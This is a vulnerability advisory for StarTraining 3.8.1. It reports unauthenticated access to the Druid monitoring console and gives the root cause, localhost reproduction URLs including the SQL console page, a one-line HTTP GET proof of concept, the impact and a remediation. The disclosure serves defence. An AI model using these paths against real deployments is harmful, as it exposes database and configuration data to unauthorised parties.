

# StarTraining — Unauthenticated Druid monitor console access (ST-VULN-002)

| Field | Value |
|-------|-------|
| Vendor | zhistaredu |
| Product | StarTraining |
| Version | 3.8.1 |
| Type | Use of Default Credentials |
| CWE | CWE-306 / CWE-200 |
| Authentication | None |
| Severity | High |

## Summary

Spring Security permits `/druid/**` anonymously while `statViewServlet` is enabled with empty login-username/password.

## Root cause

SecurityConfig `.anonymous()` on `/druid/**`; Druid console credentials unset.

## Exploit / reproduction

Open in browser (no auth):

- [http://127.0.0.1:8900/druid/index.html](http://127.0.0.1:8900/druid/index.html)
- [http://127.0.0.1:8900/druid/login.html](http://127.0.0.1:8900/druid/login.html) (empty username/password works)
- [http://127.0.0.1:8900/druid/sql.html](http://127.0.0.1:8900/druid/sql.html)


## PoC (Yakit)

```http
GET /druid/index.html HTTP/1.1
Host: 127.0.0.1:8900
Connection: close
```

Expected: HTTP 200 Druid console HTML (SQL stat / datasource info)

## Screenshots



## Impact

Information disclosure; aids SQLi / lateral movement.

## Remediation

Require authentication; set druid login credentials; restrict by IP.

## References

- Local report: `../POC_VERIFICATION_REPORT.md`
- Scripts: `poc_verify/startraining_poc_verify.py`, `startraining_jwt_forge.py`
